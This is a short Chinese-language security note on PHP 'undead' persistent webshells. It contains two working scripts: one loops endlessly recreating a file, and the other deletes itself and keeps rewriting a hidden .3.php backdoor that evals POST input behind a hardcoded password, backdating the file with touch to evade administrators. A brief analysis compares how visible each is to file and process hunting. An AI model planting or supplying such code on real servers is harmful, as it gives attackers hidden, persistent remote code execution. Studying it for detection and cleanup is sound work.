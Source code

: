 #### shell

常见内存马

```
<?php
ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去
$interval = 5; // 每隔*秒运行
do {
$filename = 'test.php';
if(file_exists($filename)) {
echo "xxx";
}
else {
$file = fopen("test.php", "w");
$txt = "<?php phpinfo();?>\n";
fwrite($file, $txt);
fclose($file);
}
sleep($interval);
} while (true);
?>
```

通过touch命令来修改文件创建时间

```
<?php
    ignore_user_abort(true);
    set_time_limit(0);
    unlink(__FILE__);
    $file = '.3.php';
    $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
    //pass=pass
    while (1){
        file_put_contents($file,$code);
        system('touch -m -d "2018-12-01 09:10:12" .3.php');
        usleep(5000);
    }
?>
```

#### 分析

php不死马实际上是进程马，当访问这个后门文件时，就会创建一个php.cgi的进程，而终止这个进程，反复生成后门文件的代码也不会一直执行了

上面两段代码的区别在于多调用了一个sysytem函数执行touch命令修改创建文件的时间，这样可以避免被管理员直接发现这个新创建的文件，但是多了一步system的命令执行会使php.cgi进程新建一个cmd子进程，在面对进程查杀时更容易被发现

而相反，第一种没有修改文件创建时间容易被直接发现，但在面对进程查杀时相对隐蔽，仅暴露一个php.cgi进程
